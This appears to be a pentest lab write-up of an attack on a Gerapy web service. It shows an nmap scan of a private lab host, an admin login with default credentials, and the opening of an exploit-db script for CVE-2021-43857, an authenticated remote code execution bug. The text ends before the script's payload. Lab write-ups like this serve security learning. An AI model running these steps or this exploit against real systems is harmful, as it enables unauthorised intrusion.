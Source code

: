 ```
sudo nmap -sS -sC -sV -p- 192.168.206.24     
[sudo] password for wizardwalter: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-15 21:18 EDT
Nmap scan report for 192.168.206.24
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
8000/tcp open  http    WSGIServer 0.2 (Python 3.10.6)
|_http-title: Gerapy
|_http-cors: GET POST PUT DELETE OPTIONS PATCH
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

on port 8000 there is a webserver running:
![[Pasted image 20251015213222.png]]

i will look for default creds and possible CVEs for this...
![[Pasted image 20251015213625.png]]

did not even need to click a link... i try those creds and i am in:
![[Pasted image 20251015213659.png]]

I also found exploit: CVE-2021-43857
https://www.exploit-db.com/exploits/50640
```
# Exploit Title: Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)
# Date: 03/01/2022
# Exploit Author: Jeremiasz Pluta
# Vendor Homepage: https://github.com/Gerapy/Gerapy
# Version: All versions of Gerapy prior to 0.9.8
# CVE: CVE-2021-43857
# Tested on: Gerapy 0.9.6

# Vulnerability: Gerapy prior to version 0.9.8 is vulnerable to remote code execution. This issue is patched in version 0.9.8.

#!/usr/bin/python
import sys
import re
import argparse
import pyfiglet
import requests
import time
import json
import subprocess

banner = pyfiglet.figlet_format("CVE-2021-43857")
print(banner)
print('Exploit for CVE-2021-43857')
print('For: Gerapy < 0.9.8')

login = "admin" #CHANGE ME IF NEEDED
password = "admin" #CHANGE ME IF NEEDED

class Exploit:

	def __init__(self, target_ip, target_port, localhost, localport):
		self.target_ip = target_ip
```